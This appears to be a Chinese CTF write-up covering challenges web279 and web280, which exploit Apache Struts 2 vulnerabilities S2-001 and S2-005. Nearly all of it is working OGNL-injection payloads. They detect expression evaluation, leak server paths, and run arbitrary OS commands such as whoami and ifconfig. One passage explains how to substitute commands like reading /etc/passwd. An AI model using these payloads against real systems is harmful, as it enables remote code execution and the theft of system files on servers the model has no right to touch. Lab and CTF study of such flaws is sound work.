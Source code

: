 ## web279
#S2-001
WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

### 漏洞点测试

`%{1+1}` 执行结果

![](attachments/Pasted%20image%2020240329090741.png)

### 获取tomcat执行路径

`%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}`

结果：`tomcatBinDir{/usr/local/tomcat/webapps}`

### 获取Web路径

`%{ #req=@org.apache.struts2.ServletActionContext@getRequest(), #response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(), #response.println(#req.getRealPath('/')), #response.flush(), #response.close() }`

结果：`/usr/local/tomcat/webapps/S2-001/`

### POC
`%{ #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(), #b=#a.getInputStream(), #c=new java.io.InputStreamReader(#b), #d=new java.io.BufferedReader(#c), #e=new char[50000], #d.read(#e), #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"), #f.getWriter().println(new java.lang.String(#e)), #f.getWriter().flush(),#f.getWriter().close() }`
替换其中的whoami即可执行命令，若存在空格，则写作：`{"cat","/etc/passwd"}`形式

## web280
#S2-005
Struts 2.0.0 - Struts 2.1.8 .1
### POC
```
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/EDI%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1

```
有回显的poc

```
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ifconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

```